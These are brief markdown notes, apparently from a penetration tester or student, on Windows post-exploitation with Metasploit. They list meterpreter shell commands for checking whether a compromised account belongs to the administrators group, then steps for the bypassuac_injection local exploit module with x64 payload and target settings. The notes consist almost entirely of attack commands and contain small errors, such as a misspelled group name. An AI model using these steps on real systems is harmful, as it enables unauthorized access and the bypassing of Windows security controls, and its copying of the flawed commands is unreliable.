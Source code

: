 # How to see wheather the gained user access is a part of administrative group
meterpreter>shell
>net users
>net localgroup administrator


## bypassing uac
>search bypassuac_injection
- exploit/windows/local/bypassuac_injection
>set payload to x64 arch
>set target to windows\ x64 arch
### this will not elevate the privilage ..it will only disable the UAC 
